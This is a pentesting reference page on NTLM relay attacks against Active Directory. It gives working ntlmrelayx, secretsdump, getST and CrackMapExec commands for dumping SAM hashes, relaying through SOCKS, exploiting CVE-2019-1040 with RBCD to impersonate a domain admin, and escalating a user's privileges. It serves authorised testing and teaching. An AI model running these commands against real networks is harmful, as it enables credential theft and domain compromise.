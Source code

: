 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.001
---
```


# NTLM relay

## Theory

After successfully [forcing a victim to authenticate](../forced-authentications/) \(NTLM authentication\) to an attack server, the attacker can try to relay that authentication to targets of his choosing. Depending on the mitigations in place, he will be able to move laterally and escalate privileges within an Active Directory domain.

## Practice

The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The way NTLM authentication is conducted is kind of protocol-independent. It means one can relay NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols NTLM relay**. It also means the relays and attacks possible depend on the application protocol the NTLM authentication is embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(Python\), [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) \(Python\) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a [forced authentication attack](../forced-authentications/).

{% hint style="warning" %}
When combining NTLM relay with Responder for [name poisoning](../forced-authentications/#llmnr-nbt-ns-mdns-name-poisoning), testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

{% tabs %}
{% tab title="Credentials theft" %}
The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.

```bash
ntlmrelayx.py -t smb://$TARGET
```
{% endtab %}

{% tab title="Credentials theft \(SOCKS\)" %}
The following command will try to relay the authentication over SMB and open a SOCKS proxy.

```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use secretsdump along with proxychains to dump hashes from the remote target's SAM, SYSTEM and SECURITY.

```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Domain account creation" %}
The following command will try to relay the authentication over LDAPS, attempt to exploit CVE-2019-1040 \(a.k.a. Drop the MIC\) to "unsign" the NTLM messages \(`--remove-mic`\), abuse the default value \(10\) of `ms-DS-MachineAccountQuota` to create a domain machine account \(`--add-machine`\) and finally, [abuse Resource Based Kerberos Constrained Delegations \(RBCD\)](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) to gain admin access to the relayed machine \(`--delegate-access`\).

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET -smb2support --remove-mic --add-computer SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```
{% endtab %}

{% tab title="Domain account promotion" %}
{% hint style="info" %}
This technique is usually combined with a [PushSubscription abuse \(a.k.a. PrivExchange\)](../forced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains \(`WriteDACL` over domain object, see [Abusing ACLs](../abusing-aces/)\) to escalate a domain user privileges \(`--escalate-user`\).
{% endhint %}

The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\).

```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```
{% endtab %}
{% endtabs %}

### Tools features

{% tabs %}
{% tab title="ntlmrelayx" %}
This tool offers many features making it a very valuable asset when pentesting an Active Directory domain:

* It can be combined with mitm6 \(for [IPv6 + name poisoning](../forced-authentications/#ipv6-dns-poisoning)\) be enabling IPv6 support with the `-6` option.
* It has the ability to open SOCKS proxies for every new session after a successful relayed authentication. This allows testers to exploit those sessions later on with tools like [proxychains](https://github.com/haad/proxychains). This feature can be enabled with the `-socks` option.
* It supports SMB2. It can be enabled with the `-smb2support` option.
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets.
* It implements CVE-2019-1040 with the `--remove-mic` option, usually needed when attempting "unsigning cross-protocols NTLM relay attacks" \(SMB to LDAP/S\).
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`.
* It has the ability to relay connections for specific target users.

{% hint style="info" %}
In theory, thanks to [the recent "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker can be added to the targets to combine ntlmrelayx with Responder servers and capture a NTLM hash with a custom challenge while relaying
{% endhint %}

The targets file used with the `-tf` option can contain the following

```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to generate the list of possible targets for relay to SMB \(hosts with SMB signing disabled\).

```bash
crackmapexec smb --gen-relay-list targets.txt $SUBNET
```
{% endtab %}

{% tab title="Inveigh-Relay" %}

{% endtab %}
{% endtabs %}

## References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" caption="" %}

{% embed url="https://en.hackndo.com/ntlm-relay/" caption="" %}

{% embed url="https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire" caption="" %}

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" caption="" %}

{% embed url="http://davenport.sourceforge.net/ntlm.html" caption="" %}

